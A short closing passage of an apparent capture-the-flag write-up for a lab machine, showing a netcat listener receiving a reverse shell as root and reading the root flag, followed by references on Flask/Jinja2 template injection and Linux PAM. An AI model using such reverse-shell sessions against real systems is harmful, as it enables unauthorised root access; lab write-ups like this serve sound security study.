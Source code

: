 ```bash
[ none@microbial web ]$  nc -lvn 2346
bash: cannot set terminal process group (30241): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@late:/# cd /root
cd /root
root@late:/root# ls
ls
root.txt
scripts
root@late:/root# cat root.txt
cat root.txt
7942.........................
root@late:/root#
```

## References:

[IndominusByte excellent writeup on ssti](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

[pwn function video on ssti](https://www.youtube.com/watch?v=SN6EVIG4c-0)

[info on PAM](https://en.wikipedia.org/wiki/Linux_PAM)
